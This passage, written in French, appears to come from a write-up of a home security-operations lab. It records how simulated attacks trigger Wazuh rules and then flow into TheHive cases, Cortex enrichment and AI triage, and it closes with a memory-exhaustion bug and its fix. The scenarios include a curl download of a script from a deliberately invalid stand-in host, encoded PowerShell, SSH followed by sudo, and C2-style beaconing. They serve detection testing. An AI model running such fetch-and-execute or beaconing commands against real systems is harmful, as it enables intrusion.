

### Phishing / récupération d'outil externe (T1105)

Un `curl` vers `phishing-simulated-payload.example.invalid/malicious.sh` déclenche la règle `100099`, niveau 8 — traité automatiquement par le script de triage standard :





L'analyse Cortex sur ce domaine retourne une erreur explicite (`InvalidArgumentError`, domaine non valide) car le TLD `.invalid` du scénario simulé n'est volontairement pas enregistrable — comportement attendu, documenté tel quel.

### PowerShell suspect (T1059.001)

Une commande `pwsh -enc <base64>` déclenche la règle `100101`, niveau 12 (critique), capturée intégralement par `auditd` (`data.audit.execve.a1`/`a2` montrent le flag `-enc` et le payload encodé) :




Ce scénario n'a pas d'observable réseau exploitable par Cortex (exécution locale uniquement) : étape volontairement absente plutôt que simulée artificiellement.

### Mouvement latéral simulé (T1021.004)

Deux connexions SSH successives vers `soc@localhost` suivies d'une élévation `sudo` déclenchent la règle `100105`, niveau 10, avec l'historique des connexions précédentes visible dans le champ `previous_output` de l'alerte :





### C2 beaconing simulé (T1071)

Cinq requêtes `curl` avec jitter (5-12 s) vers un domaine simulé déclenchent la règle `100103`, niveau 10, corrélant les requêtes répétées vers la même destination :





### Bilan et bug rencontré

Les cinq scénarios sont ainsi documentés individuellement, chacun tracé depuis la détection Wazuh jusqu'au cas TheHive taggué par le triage IA, avec enrichissement Cortex sur les quatre scénarios disposant d'un observable réseau.

**Bug rencontré** : après plusieurs cycles successifs de triage Gemma sans libérer la RAM entre chaque cycle, la VM s'est retrouvée en mémoire quasi épuisée (111 Mo libres, swap à 100 %), bloquant l'interface Cortex (jobs restant indéfiniment `Waiting`, page web non réactive). Diagnostiqué via `free -h`. Corrigé en déchargeant explicitement le modèle Gemma d'Ollama (`curl .../api/generate -d '{"keep_alive":0}'`) pour libérer ~4,5 Go, puis en redémarrant le conteneur Cortex — les deux jobs bloqués se sont terminés avec succès immédiatement après.
